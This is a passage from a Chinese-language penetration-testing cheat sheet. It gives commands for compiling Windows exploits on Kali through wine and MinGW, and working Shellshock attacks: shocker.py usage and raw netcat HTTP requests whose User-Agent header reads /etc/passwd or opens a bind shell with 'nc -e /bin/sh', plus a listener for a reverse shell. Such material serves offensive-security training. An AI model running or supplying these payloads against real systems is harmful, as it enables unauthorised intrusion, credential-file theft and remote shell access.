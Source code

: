 ### 在Kali上编译WIndows的exp

```text
wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe
```

### 交叉编译Exploits

```text
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
```

### 利用通用漏洞

#### 利用Shellshock漏洞

一个用来寻找和利用Shellshock漏洞的攻击

```text
git clone https://github.com/nccgroup/shocker
```

```text
./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
```

**cat file \(查看文件内容\)**

```text
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

**Shell Shock 运行bind shell**

```text
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

**Shell Shock 反弹shell**

```text
nc -l -p 443
```

## 简单的本地Web服务器
